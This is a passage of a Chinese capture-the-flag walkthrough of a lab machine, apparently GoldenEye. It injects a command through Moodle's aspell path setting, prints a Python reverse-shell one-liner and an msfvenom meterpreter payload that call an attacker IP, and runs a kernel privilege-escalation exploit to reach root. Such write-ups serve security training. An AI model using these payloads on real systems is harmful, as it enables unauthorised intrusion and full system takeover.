 另外一种反弹 shell 的方法是：http://severnaya-station.com/gnocertdir/admin/settings.php?section=systempaths 中设置 Path to aspell 中的内容为反弹的 shell 命令，然后在 http://severnaya-station.com/gnocertdir/blog/edit.php?action=add 中编辑文章中，点击 spell check，就会调用上面 system path 中设置的命令，就会获得反弹的 shell。

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.3",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

对 tty 进行升级：python -c 'import pty; pty.spawn("/bin/bash")' 发现终端不稳定，可以利用 msfvenom 生成 elf 后门，然后 wget 上传到/tmp 目录，重新生成稳定的反向连接。

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.10.3 LPORT=9999 -f elf -o reverse.elf

然后再 msfconsole 中创建监听，接收反弹：
handler -H 192.168.10.3 -P 9999 -p linux/x64/meterpreter/reverse_tcp
```

获得了稳定的 shell 之后进一步进行信息收集，上传 linpeas，没发现其他有用信息，只发现了内核版本可能存在漏洞：

```
OS: Linux version 3.13.0-32-generic (buildd@kissel) (gcc version 4.8.2 (Ubuntu 4.8.2-19ubuntu1) )
```

exploidDB 上搜索，找到了 https://www.exploit-db.com/exploits/37292，将漏洞代码下载：searchsploit -m 37292，尝试将目标代码下载到目标机器，使用 gcc 进行编译，发现目标机器没有 gcc，但是找到了/usr/bin/cc，使用它对代码进行编译，在编译前，将源代码的 143 行 改成 cc 编译 lib = system("cc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w"); 当然使用检测出的 dirtyCow 也可以提权到 root。

编译后，进行执行，获得了 root 权限：

```
cc 37292.c -o ofs
./ofs
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

## flag

查看/root 目录，发现.flag.txt 进行查看：

```
# cat .flag.txt

Alec told me to place the codes here:

568628e0d993b1973adc718237da6e93

If you captured this make sure to go here.....
/006-final/xvf7-flag/
```
